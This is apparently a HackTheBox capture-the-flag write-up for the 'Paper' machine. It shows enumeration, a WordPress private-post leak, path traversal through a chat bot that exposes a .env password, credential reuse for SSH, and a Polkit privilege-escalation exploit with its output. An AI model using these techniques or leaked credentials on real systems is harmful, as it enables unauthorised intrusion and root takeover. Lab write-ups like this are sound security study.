

---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - authorization-bypass
  - credentials-reuse
  - privesc/polkit
  - wordpress
  - Linux
  - rocket-chat
---


# Resolution summary

>[!summary]
>- A server response from the HTTP web server discloses a DNS that points to a Wordpress blog vulnerable to **Unauthenticated View Private/Draft Posts** (CVE-2019-17671)
>- Exploiting the vulnerability we are able to **leak** restricted data, containing a **secret registration token for RocketChat** that allows us to create a custom user and access a restricted chat
>- On RocketChat it is possible to exploit some insecure functionalities of a custom bot in order to l**eaks recyclops credentials** and **reuse** them to access the machine as dwight
>- The machine is vulnerable to **Polkit Privilege Escalation** (CVE-2021-3560). It is possible to create a custom sudoer account and thus escalate to root.

## Improved skills

- Enumeration and exploitations of leaked secrets
- Exploiting Wordpress known vulnerabilities
- Abusing intended features lacking of security controls
- Exploitation of Polkit Privilege Escalation

## Used tools

- nmap
- gobuster
- wpscan
- linpeas.sh

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/B2R/Paper]
└─$ sudo nmap -sS -p- 10.10.11.143 -v -oN scan/all-tcp-ports.txt

[sudo] password for kali:
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-07 17:24 EDT
Initiating Ping Scan at 17:24
Scanning 10.10.11.143 [4 ports]
...
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 19.85 seconds
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/B2R/Paper]
└─$ sudo nmap -sT -sV -sC -p22,80,443 10.10.11.143 -oN scan/open-tcp-ports.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-07 17:25 EDT
Nmap scan report for 10.10.11.143
Host is up (0.040s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods:
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.17 seconds
```

Enumerated top 200 UDP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/B2R/Paper]
└─$ sudo nmap -sU --top-ports 200 10.10.11.143 -oN scan/top_200-udp-ports.txt
[sudo] password for kali:
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-07 17:39 EDT
Nmap scan report for 10.10.11.143
Host is up (0.040s latency).
Not shown: 199 closed udp ports (port-unreach)
PORT     STATE         SERVICE
5353/udp open|filtered zeroconf

Nmap done: 1 IP address (1 host up) scanned in 208.18 seconds
```

# Enumeration

## Port 80 - HTTP (Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9))

Browsed port 80:


```
HTTP/1.1 403 Forbidden
Date: Sat, 07 May 2022 21:41:58 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
ETag: "30c0b-5c5c7fdeec240"
Accept-Ranges: bytes
Content-Length: 199691
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

Enumerated web files and directories:

```bash
$ gobuster dir -u http://10.10.11.143 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 25 -o scan/p80-dirs.txt
...
/manual               (Status: 301) [Size: 235] [--> http://10.10.11.143/manual/]

$ gobuster dir -u http://10.10.11.143 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 25 -o scan/p80-files.txt
...
/.htaccess            (Status: 403) [Size: 199]
/.                    (Status: 403) [Size: 199691]
/.html                (Status: 403) [Size: 199]
/.htpasswd            (Status: 403) [Size: 199]
/.htm                 (Status: 403) [Size: 199]
/.htpasswds           (Status: 403) [Size: 199]
/.htgroup             (Status: 403) [Size: 199]
/poweredby.png        (Status: 200) [Size: 5714]
/.htaccess.bak        (Status: 403) [Size: 199]
/.htuser              (Status: 403) [Size: 199]
/.htc                 (Status: 403) [Size: 199]
/.ht                  (Status: 403) [Size: 199]
/dispatch.fcgi        (Status: 403) [Size: 199]
/mytias.fcgi          (Status: 403) [Size: 199]
/test.fcgi            (Status: 403) [Size: 199]
```

### office.paper - (wordpress 5.2.3)

Added **office.paper** to **/etc/hosts**

```bash
# echo '10.10.11.143    office.paper' >> /etc/hosts
```


Enumerated posts and comments:

[http://office.paper/?s=](http://office.paper/?s=)


Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick


Michael, you should remove the secret content from your drafts ASAP, as they are not that secure as you think! -Nick

- Enumerated wordpress using **wpscan**:
    
    ```bash
    ┌──(kali㉿kali)-[~/CTFs/HTB/B2R/Paper]
    └─$ wpscan --url office.paper
    ...
    [+] URL: http://office.paper/ [10.10.11.143]
    [+] Started: Sat May  7 17:54:40 2022
    
    Interesting Finding(s):
    
    [+] Headers
     | Interesting Entries:
     |  - Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
     |  - X-Powered-By: PHP/7.2.24
     |  - X-Backend-Server: office.paper
     | Found By: Headers (Passive Detection)
     | Confidence: 100%
    
    [+] WordPress readme found: http://office.paper/readme.html
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 100%
    
    [+] WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).
     | Found By: Rss Generator (Passive Detection)
     |  - http://office.paper/index.php/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
     |  - http://office.paper/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
    
    [+] WordPress theme in use: construction-techup
     | Location: http://office.paper/wp-content/themes/construction-techup/
     | Last Updated: 2021-07-17T00:00:00.000Z
     | Readme: http://office.paper/wp-content/themes/construction-techup/readme.txt
     | [!] The version is out of date, the latest version is 1.4
     | Style URL: http://office.paper/wp-content/themes/construction-techup/style.css?ver=1.1
     | Style Name: Construction Techup
     | Description: Construction Techup is child theme of Techup a Free WordPress Theme useful for Business, corporate a...
     | Author: wptexture
     | Author URI: https://testerwp.com/
     |
     | Found By: Css Style In Homepage (Passive Detection)
     |
     | Version: 1.1 (80% confidence)
     | Found By: Style (Passive Detection)
     |  - http://office.paper/wp-content/themes/construction-techup/style.css?ver=1.1, Match: 'Version: 1.1'
    
    [+] Enumerating All Plugins (via Passive Methods)
    
    [i] No plugins Found.
    
    [+] Enumerating Config Backups (via Passive and Aggressive Methods)
     Checking Config Backups - Time: 00:00:01 <=============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:01
    
    [i] No Config Backups Found.
    
    [!] No WPScan API Token given, as a result vulnerability data has not been output.
    [!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
    
    [+] Finished: Sat May  7 17:54:44 2022
    [+] Requests Done: 139
    [+] Cached Requests: 35
    [+] Data Sent: 34.539 KB
    [+] Data Received: 28.126 KB
    [+] Memory used: 231.141 MB
    [+] Elapsed time: 00:00:04
    
    ┌──(kali㉿kali)-[~/CTFs/HTB/B2R/Paper]                                                                                                                                                                                                      
    └─$ wpscan --url office.paper -e ap,vt,cb,dbe,u --plugins-version-detection aggressive --plugins-detection aggressive
    ...
    [+] prisonmike
     | Found By: Author Posts - Author Pattern (Passive Detection)
     | Confirmed By:
     |  Rss Generator (Passive Detection)
     |  Wp Json Api (Aggressive Detection)
     |   - http://office.paper/index.php/wp-json/wp/v2/users/?per_page=100&page=1
     |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     |  Login Error Messages (Aggressive Detection)
    
    [+] nick
     | Found By: Wp Json Api (Aggressive Detection)
     |  - http://office.paper/index.php/wp-json/wp/v2/users/?per_page=100&page=1
     | Confirmed By:
     |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     |  Login Error Messages (Aggressive Detection)
    
    [+] creedthoughts
     | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     | Confirmed By: Login Error Messages (Aggressive Detection)
    ```
    

### chat.office.paper (discovered exploiting Unauthenticated View Private/Draft Posts)

Browsed **chat.office.paper**:


Browsed the secret path, registered a user and enumerated private chats:

[http://chat.office.paper/register/8qozr226AhkCHZdyY](http://chat.office.paper/register/8qozr226AhkCHZdyY)


>[!important]
>0xbro     maoutis


```bash
recyclops Bot 11:21 AM
kellylikescupcakes Hello. I am Recyclops. A bot assigned by Dwight. I will have my revenge on earthlings, but before that, I have to help my Cool friend Dwight to respond to the annoying questions asked by his co-workers, so that he may use his valuable time to... well, not interact with his co-workers.
Most frequently asked questions include:
- What time is it?
- What new files are in your sales directory?
- Why did the salesman crossed the road?
- What's the content of file x in your sales directory? etc.
Please note that I am a beta version and I still have some bugs to be fixed.
How to use me ? :
1. Small Talk:
You can ask me how dwight's weekend was, or did he watched the game last night etc.
eg: 'recyclops how was your weekend?' or 'recyclops did you watched the game last night?' or 'recyclops what kind of bear is the best?
2. Joke:
You can ask me Why the salesman crossed the road.
eg: 'recyclops why did the salesman crossed the road?'
<=====The following two features are for those boneheads, who still don't know how to use scp. I'm Looking at you Kevin.=====>
For security reasons, the access is limited to the Sales folder.
3. Files:
eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file src/test.php' or just 'recyclops file test.txt'
4. List:
You can ask me to list the files
5. Time:
You can ask me to what the time is
```

# Exploitation

## WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts (CVE-2019-17671)

[CVE-2019-17671](https://wpscan.com/vulnerability/9909)

PoC: [http://office.paper/?static=1](http://office.paper/?static=1)


## Exploiting recyclops features


```bash
$ list ..
Fetching the directory listing of ..
total 32
drwx------ 11 dwight dwight 281 Feb 6 07:46 .
drwxr-xr-x. 3 root root 20 Jan 14 06:50 ..
lrwxrwxrwx 1 dwight dwight 9 Jul 3 2021 .bash_history -> /dev/null
-rw-r--r-- 1 dwight dwight 18 May 10 2019 .bash_logout
-rw-r--r-- 1 dwight dwight 141 May 10 2019 .bash_profile
-rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc
-rwxr-xr-x 1 dwight dwight 1174 Sep 16 2021 bot_restart.sh
drwx------ 5 dwight dwight 56 Jul 3 2021 .config
-rw------- 1 dwight dwight 16 Jul 3 2021 .esd_auth
drwx------ 2 dwight dwight 44 Jul 3 2021 .gnupg
drwx------ 8 dwight dwight 4096 Sep 16 2021 hubot
-rw-rw-r-- 1 dwight dwight 18 Sep 16 2021 .hubot_history
drwx------ 3 dwight dwight 19 Jul 3 2021 .local
drwxr-xr-x 4 dwight dwight 39 Jul 3 2021 .mozilla
drwxrwxr-x 5 dwight dwight 83 Jul 3 2021 .npm
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales
drwx------ 2 dwight dwight 6 Sep 16 2021 .ssh
-r-------- 1 dwight dwight 33 May 7 17:23 user.txt
drwxr-xr-x 2 dwight dwight 24 Sep 16 2021 .vim
total 32

$ list ../hubot
drwx------ 8 dwight dwight 4096 Sep 16 2021 .
drwx------ 11 dwight dwight 281 Feb 6 07:46 ..
-rw-r--r-- 1 dwight dwight 0 Jul 3 2021 \
srwxr-xr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8000
srwxrwxr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8080
drwx--x--x 2 dwight dwight 36 Sep 16 2021 bin
-rw-r--r-- 1 dwight dwight 258 Sep 16 2021 .env
-rwxr-xr-x 1 dwight dwight 2 Jul 3 2021 external-scripts.json
drwx------ 8 dwight dwight 163 Jul 3 2021 .git
-rw-r--r-- 1 dwight dwight 917 Jul 3 2021 .gitignore
-rw-r--r-- 1 dwight dwight 135675 May 7 18:47 .hubot.log
-rwxr-xr-x 1 dwight dwight 1068 Jul 3 2021 LICENSE
drwxr-xr-x 89 dwight dwight 4096 Jul 3 2021 node_modules
drwx--x--x 115 dwight dwight 4096 Jul 3 2021 node_modules_bak
-rwxr-xr-x 1 dwight dwight 1062 Sep 16 2021 package.json
-rwxr-xr-x 1 dwight dwight 972 Sep 16 2021 package.json.bak
-rwxr-xr-x 1 dwight dwight 30382 Jul 3 2021 package-lock.json
-rwxr-xr-x 1 dwight dwight 14 Jul 3 2021 Procfile
-rwxr-xr-x 1 dwight dwight 5044 Jul 3 2021 README.md
drwx--x--x 2 dwight dwight 193 Jan 13 10:56 scripts
-rwxr-xr-x 1 dwight dwight 100 Jul 3 2021 start_bot.sh
drwx------ 2 dwight dwight 25 Jul 3 2021 .vscode
-rwxr-xr-x 1 dwight dwight 29951 Jul 3 2021 yarn.lock

$ file ../hubot/.env
<!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

>[!important]
>recyclops     Queenofblad3s!23
>dwight     Queenofblad3s!23

Logged in trough SSH re-using recyclops password:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/B2R/Paper]
└─$ ssh dwight@office.paper
dwight@office.paper's password:
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ id; hostname; ip a; cat /home/dwight/user.txt
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
paper
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:e7:ed brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.143/23 brd 10.10.11.255 scope global noprefixroute eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:e7ed/64 scope global dynamic mngtmpaddr
       valid_lft 86399sec preferred_lft 14399sec
    inet6 fe80::250:56ff:feb9:e7ed/64 scope link
       valid_lft forever preferred_lft forever
3: virbr0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default qlen 1000
    link/ether 52:54:00:9b:e7:f7 brd ff:ff:ff:ff:ff:ff
    inet 192.168.122.1/24 brd 192.168.122.255 scope global virbr0
       valid_lft forever preferred_lft forever
4: virbr0-nic: <BROADCAST,MULTICAST> mtu 1500 qdisc fq_codel master virbr0 state DOWN group default qlen 1000
    link/ether 52:54:00:9b:e7:f7 brd ff:ff:ff:ff:ff:ff
83482a8c2adcc4a365993c3653dc9517
```

# Privilege Escalation

## Local enumeration

Enumerated local users:

```bash
[dwight@paper ~]$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
polkitd:x:998:996:User for polkitd:/:/sbin/nologin
geoclue:x:997:994:User for geoclue:/var/lib/geoclue:/sbin/nologin
rtkit:x:172:172:RealtimeKit:/proc:/sbin/nologin
qemu:x:107:107:qemu user:/:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
cockpit-ws:x:996:993:User for cockpit-ws:/:/sbin/nologin
pulse:x:171:171:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin
usbmuxd:x:113:113:usbmuxd user:/:/sbin/nologin
unbound:x:995:990:Unbound DNS resolver:/etc/unbound:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
gluster:x:994:989:GlusterFS daemons:/run/gluster:/sbin/nologin
chrony:x:993:987::/var/lib/chrony:/sbin/nologin
libstoragemgmt:x:992:986:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
saslauth:x:991:76:Saslauthd user:/run/saslauthd:/sbin/nologin
dnsmasq:x:985:985:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
radvd:x:75:75:radvd user:/:/sbin/nologin
clevis:x:984:983:Clevis Decryption Framework unprivileged user:/var/cache/clevis:/sbin/nologin
pegasus:x:66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
sssd:x:983:981:User for sssd:/:/sbin/nologin
colord:x:982:980:User for colord:/var/lib/colord:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
setroubleshoot:x:981:979::/var/lib/setroubleshoot:/sbin/nologin
pipewire:x:980:978:PipeWire System Daemon:/var/run/pipewire:/sbin/nologin
gdm:x:42:42::/var/lib/gdm:/sbin/nologin
gnome-initial-setup:x:979:977::/run/gnome-initial-setup/:/sbin/nologin
insights:x:978:976:Red Hat Insights:/var/lib/insights:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
avahi:x:70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
nginx:x:977:975:Nginx web server:/var/lib/nginx:/sbin/nologin
mongod:x:976:974:mongod:/var/lib/mongo:/bin/false
rocketchat:x:1001:1001::/home/rocketchat:/bin/bash
dwight:x:1004:1004::/home/dwight:/bin/bash
```

Enumerated local services:

```bash
[dwight@paper Rocket.Chat]$ netstat -polentau | grep -vE 'WAIT|ESTABLISHED'
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name     Timer
tcp        0      0 192.168.122.1:53        0.0.0.0:*               LISTEN      0          37378      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          30043      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:48320         0.0.0.0:*               LISTEN      1001       40366      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      1004       42932      2403/node            off (0.00/0/0)
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      27         34774      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:27017         0.0.0.0:*               LISTEN      976        32842      -                    off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      27         38979      -                    off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      0          30054      -                    off (0.00/0/0)
tcp6       0      0 :::443                  :::*                    LISTEN      0          33812      -                    off (0.00/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      0          33797      -                    off (0.00/0/0)
udp        0      0 0.0.0.0:58176           0.0.0.0:*                           70         29806      -                    off (0.00/0/0)
udp        0      0 192.168.122.1:53        0.0.0.0:*                           0          37377      -                    off (0.00/0/0)
udp        0      0 0.0.0.0:67              0.0.0.0:*                           0          37374      -                    off (0.00/0/0)
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           70         29804      -                    off (0.00/0/0)
udp        0      0 127.0.0.1:323           0.0.0.0:*                           0          27599      -                    off (0.00/0/0)
udp6       0      0 :::5353                 :::*                                70         29805      -                    off (0.00/0/0)
udp6       0      0 :::46316                :::*                                70         29807      -                    off (0.00/0/0)
udp6       0      0 ::1:323                 :::*                                0          27600      -                    off (0.00/0/0)
```

Linepeas findings:

```bash
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560
...
╔══════════╣ PATH                                                                                                                                                                                                                           
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses                                                                                                                                                     
/home/dwight/.local/bin:/home/dwight/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin                                                                                                                                                  
New path exported: /home/dwight/.local/bin:/home/dwight/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/sbin:/bin
...
╔══════════╣ Executing Linux Exploit Suggester                                                                                                                                                                                              
╚ https://github.com/mzet-/linux-exploit-suggester                                                                                                                                                                                          
[+] [CVE-2021-4034] PwnKit                                                                                                                                                                                                                  
                                                                                                                                                                                                                                            
   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt                                                                                                                                                                      
   Exposure: less probable                                                                                                                                                                                                                  
   Tags: ubuntu=10|11|12|13|14|15|16|17|18|19|20|21,debian=7|8|9|10|11,fedora,manjaro                                                                                                                                                       
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main                                                                                                                                                                  
                                                                                                                                                                                                                                            
[+] [CVE-2021-3156] sudo Baron Samedit                                                                                                                                                                                                      
                                                                                                                                                                                                                                            
   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt                                                                                                                                      
   Exposure: less probable                                                                                                                                                                                                                  
   Tags: mint=19,ubuntu=18|20, debian=10                                                                                                                                                                                                    
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main                                                                                                                                                                  
                                                                                                                                                                                                                                            
[+] [CVE-2021-3156] sudo Baron Samedit 2                                                                                                                                                                                                    
                                                                                                                                                                                                                                            
   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt                                                                                                                                      
   Exposure: less probable                                                                                                                                                                                                                  
   Tags: centos=6|7|8,ubuntu=14|16|17|18|19|20, debian=9|10                                                                                                                                                                                 
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main                                                                                                                                                                 
                                                                                                                                                                                                                                            
[+] [CVE-2021-22555] Netfilter heap out-of-bounds write                                                                                                                                                                                     
                                                                                                                                                                                                                                            
   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html                                                                                                                                               
   Exposure: less probable                                                                                                                                                                                                                  
   Tags: ubuntu=20.04{kernel:5.8.0-*}                                                                                                                                                                                                       
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c                                                                                                                      
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c                                                                                                                                        
   Comments: ip_tables kernel module must be loaded                                                                                                                                                                                         
                                                                                                                                                                                                                                            
[+] [CVE-2019-18634] sudo pwfeedback                                                                                                                                                                                                        
                                                                                                                                                                                                                                            
   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/                                                                                                                                                                               
   Exposure: less probable                                                                                                                                                                                                                  
   Tags: mint=19                                                                                                                                                                                                                            
   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c                                                                                                                                                   
   Comments: sudo configuration requires pwfeedback to be enabled.                                                                                                                                                                          

[+] [CVE-2019-15666] XFRM_UAF

   Details: https://duasynt.com/blog/ubuntu-centos-redhat-privesc
   Exposure: less probable
   Download URL: 
   Comments: CONFIG_USER_NS needs to be enabled; CONFIG_XFRM needs to be enabled

[+] [CVE-2019-13272] PTRACE_TRACEME

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1903
   Exposure: less probable
   Tags: ubuntu=16.04{kernel:4.15.0-*},ubuntu=18.04{kernel:4.15.0-*},debian=9{kernel:4.9.0-*},debian=10{kernel:4.19.0-*},fedora=30{kernel:5.0.9-*}
   Download URL: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/47133.zip
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2019-13272/poc.c
   Comments: Requires an active PolKit agent.
...
```

## Polkit Privilege Escalation (CVE-2021-3560)

[https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)

Executed the PoC and elevated to root:

```bash
[dwight@paper shm]$ ./poc.sh -u=maoutis -p=maoutis

[!] Username set as : maoutis
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username maoutis...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username maoutis  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - maoutis
[!] When prompted for password, enter your password
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper shm]$ su maoutis
Password:
[maoutis@paper shm]$ id
uid=1005(maoutis) gid=1005(maoutis) groups=1005(maoutis),10(wheel)
[maoutis@paper shm]$ sudo bash

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for maoutis:
[root@paper shm]# id; hostname; ip a; cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root)
paper
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
